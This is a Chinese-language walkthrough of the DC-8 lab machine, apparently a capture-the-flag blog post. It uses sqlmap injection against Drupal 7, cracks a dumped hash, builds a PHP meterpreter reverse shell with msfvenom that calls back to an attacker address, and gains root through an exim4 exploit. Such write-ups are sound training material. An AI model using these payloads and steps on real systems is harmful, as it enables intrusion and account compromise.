









## 信息收集

nmap扫描结果

```
PORT   STATE SERVICE  VERSION
22/tcp open  ssh      OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 35:a7:e6:c4:a8:3c:63:1d:e1:c0:ca:a3:66:bc:88:bf (RSA)
|   256 ab:ef:9f:69:ac:ea:54:c6:8c:61:55:49:0a:e7:aa:d9 (ECDSA)
|_  256 7a:b2:c6:87:ec:93:76:d4:ea:59:4b:1b:c6:e8:73:f2 (ED25519)
80/tcp open  ssl/http Apache
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache
|_http-title: Welcome to DC-8 | DC-8
MAC Address: 08:00:27:A8:B6:73 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

打开80端口发现是drupal,扫描到后台 [http://192.168.56.102/user](http://192.168.56.102/user) ，并且发现了可疑注入点



sqlmap注入



得到用户名和密码

```
+-------+---------------------------------------------------------+
| name  | pass                                                    |
+-------+---------------------------------------------------------+
| admin | $S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z |
| john  | $S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF |
+-------+---------------------------------------------------------+
```

不过密码是hash过的，使用john爆破，只有 `john` 用户的密码可以爆破出来 `turtle`

## 后台getshell

修改页面



```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f raw  -o shell.php
```

生成 shell ，修改



修改完之后，提交表单



成功getshell



## 提权

寻找 SUID

```
www-data@dc-8:/tmp$ find / -perm -u=s -type f 2>/dev/null 
find / -perm -u=s -type f 2>/dev/null                     
/usr/bin/chfn                                             
/usr/bin/gpasswd                                          
/usr/bin/chsh                                             
/usr/bin/passwd                                           
/usr/bin/sudo                                             
/usr/bin/newgrp                                           
/usr/sbin/exim4                                           
/usr/lib/openssh/ssh-keysign                              
/usr/lib/eject/dmcrypt-get-device                         
/usr/lib/dbus-1.0/dbus-daemon-launch-helper               
/bin/ping                                                 
/bin/su                                                   
/bin/umount                                               
/bin/mount
```

发现了 `exim4` ,这是一个邮件程序

搜索相关的 exploit



将 `46996.sh` 上传到靶机上，注意需要修改一下文件格式为 `unix`

```
set ff=unix
```



最后得到flag


